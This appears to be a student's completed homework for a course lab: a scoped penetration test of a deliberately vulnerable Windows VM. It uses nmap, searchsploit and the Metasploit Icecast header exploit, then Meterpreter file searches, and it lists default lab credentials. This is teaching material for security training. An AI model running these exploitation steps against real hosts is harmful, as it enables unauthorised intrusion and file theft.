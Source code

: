 # Week-17-Homework-Penetration-Testing-1

## Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.

## Reminders

A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor

Target machine: DVW10 IEUser:Passw0rd!

NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to begin the activity.

## Deliverable

Once you complete this assignment, submit your findings in the following document:

Report.docx

## Instructions

### You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

**Perform a service and version scan using Nmap to determine which services are up and running:**

**Run the Nmap command that performs a service and version scan against the target.**

Answer: `nmap -sV 192.168.0.20`

**From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:**

**Run the SearchSploit commands to show available Icecast exploits.**

Answer: `searchsploit icecast`

**Now that we know which exploits are available to us, let's start Metasploit:**

**Run the command that starts Metasploit:**

Answer: `msfconsole`

**Search for the Icecast module and load it for use.**

**Run the command to search for the Icecast module:**

Answer: `search icecast`

**Run the command to use the Icecast module:**
**Note: Instead of copying the entire path to the module, you can use the number in front of it.**

Answer: `use exploit/windows/http/icecast_header`

**Set the RHOST to the target machine.**

**Run the command that sets the RHOST:**

Answer: `set RHOST 192.168.0.20`

**Run the Icecast exploit.**

**Run the command that runs the Icecast exploit.**

Answer: `exploit` (while in module)

**Run the command that performs a search for the secretfile.txt on the target.**

Answer: `search -f *secretfile.txt` 

This command will place a wildcard in front of 'secret' in 'secretfile.txt', meanning the search will look for anything that contains 'secretfile.txt' as well as any other text files that have anything before 'secretfile.txt'.

**You should now have a Meterpreter session open.**

**Run the command to performs a search for the recipe.txt on the target:**

Answer: `search -f *recipe.txt`

**Bonus: Run the command that exfiltrates the recipe*.txt file:**

Answer:

**You can also use Meterpreter's local exploit suggester to find possible exploits.**

**Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.**

### Bonus
**A. Run a Meterpreter post script that enumerates all logged on users.**

Answer:

**B. Open a Meterpreter shell.**

Answer:

**C. Run the command that displays the target's computer system information:**

Answer:
